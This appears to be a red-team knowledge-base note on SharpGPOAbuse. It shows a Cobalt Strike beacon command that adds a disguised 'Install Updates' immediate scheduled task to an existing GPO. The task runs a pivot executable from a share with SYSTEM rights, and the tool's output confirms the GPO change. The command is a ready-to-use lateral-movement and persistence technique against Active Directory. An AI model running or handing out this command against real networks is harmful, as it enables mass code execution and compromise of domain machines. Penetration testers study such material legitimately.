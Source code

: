 # SharpGPOAbuse

SharpGPOAbuse allows a wider range of "abusive" configurations to be added to a GPO.
-> It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to.

## [[Group Policy (GPO)]]
Add an Immediate Scheduled Task to existing GPO
``````beacon
beacon> getuid
[*] You are EDU\john

beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = edu.evil.corp
[+] Domain Controller = dc-2.edu.evil.corp
[+] Distinguished Name = CN=Policies,CN=System,DC=edu,DC=evil,DC=corp
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\edu.evil.corp\SysVol\edu.evil.corp\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```````

```meta
requirements: 
results: 
oss: 
source: https://github.com/FSecureLABS/SharpGPOAbuse
description: 
```